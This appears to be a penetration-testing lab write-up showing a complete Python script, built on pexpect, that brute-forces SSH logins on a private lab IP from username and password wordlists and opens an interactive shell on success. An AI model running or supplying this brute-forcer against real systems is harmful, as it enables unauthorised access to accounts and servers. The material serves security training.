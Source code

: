 # Phase 1: Setup and Compromise the SSH Service

## 🧠 Task 1.2: Compromise the SSH Service Using a Custom Script

In this task, instead of using Metasploit, we demonstrate how to automate the SSH brute-force attack using a custom Python script. The script utilizes the `pexpect` library to interact with the SSH process directly, handling prompts and testing username/password combinations.

---

## 🔹 Step 1: Execute the Custom Brute-Force Script

We created a script called `SSH_exploitScript.py` that:
- Loads usernames and passwords from two separate files.
- Tries all combinations on the target IP (`192.168.56.102`).
- Reports any successful login attempts.

```python
import pexpect
import sys

def main():
    ip = "192.168.56.102"
    user_file = "/home/kali/Desktop/username"
    pass_file = "/home/kali/Desktop/password"

    try:
        with open(user_file) as uf, open(pass_file) as pf:
            users = [u.strip() for u in uf if u.strip()]
            passwords = [p.strip() for p in pf if p.strip()]
    except Exception as e:
        print(f"[!] Error opening wordlists: {e}")
        sys.exit(1)

    for user in users:
        for password in passwords:
            print(f"[*] Trying {user}:{password}")
            try:
                child = pexpect.spawn(f"ssh {user}@{ip}", timeout=10)
                i = child.expect([
                    r"Are you sure you want to continue connecting \\(yes/no\\)\\?",
                    r"[Pp]assword:",
                    pexpect.TIMEOUT,
                    pexpect.EOF
                ])
                if i == 0:
                    child.sendline("yes")
                    i = child.expect([r"[Pp]assword:", pexpect.TIMEOUT, pexpect.EOF])
                if i == 1:
                    child.sendline(password)
                    j = child.expect([
                        r"Permission denied",
                        r"[#$]\\s",
                        pexpect.TIMEOUT,
                        pexpect.EOF
                    ], timeout=10)

                    if j == 1:
                        print(f"[+] SUCCESS: {user}:{password}")
                        child.interact()
                        return
                    else:
                        print(f"[-] Failed: {user}:{password}")
                else:
                    print(f"[-] No password prompt for {user}@{ip}")
                child.close()
            except pexpect.ExceptionPexpect as e:
                print(f"[!] Exception with {user}:{password} -> {e}")

    print("[-] Brute‑force complete. No valid credentials found.")

if __name__ == "__main__":
    main()
```



